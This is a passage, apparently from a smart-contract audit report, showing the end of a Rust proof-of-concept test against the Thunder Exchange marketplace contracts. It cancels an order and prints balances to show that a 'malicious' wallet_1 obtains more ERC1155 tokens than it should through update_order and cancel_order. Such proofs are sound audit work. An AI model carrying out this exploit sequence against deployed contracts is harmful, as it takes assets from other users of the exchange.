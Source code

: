 ```Rust
        .methods()
        .cancel_order(strategy_fixed_price_sale_id, 1, Side::Sell)
        .with_variable_output_policy(VariableOutputPolicy::Exactly(1))
        .with_contracts(&[&strategy_fixed_price_sale_instance, &execution_manager_instance, &thunder_exchange_instance, &nft_instance, &asset_manager_instance, &pool_instance, &royalty_manager_instance])
        .call()
        .await?;

    println!("after malicious  wallet_1 calls update_order and cancel_order, he get more erc1155 token than expected");
    println!("wallet_1 balance: {}", get_wallet_balance(&wallet_1, &asset_id_1).await);
    println!("waleet_2 balance: {}", get_wallet_balance(&wallet_2, &asset_id_1).await);

    Ok(())
}

pub(crate) fn get_asset_id(sub_id: Bytes32, contract: ContractId) -> AssetId {
    let mut hasher = Sha256::new();
    hasher.update(*contract);
    hasher.update(*sub_id);
    AssetId::new(*Bytes32::from(<[u8; 32]>::from(hasher.finalize())))
}
pub(crate) async fn get_wallet_balance(wallet: &WalletUnlocked, asset: &AssetId) -> u64 {
    wallet.get_asset_balance(asset).await.unwrap()
}
```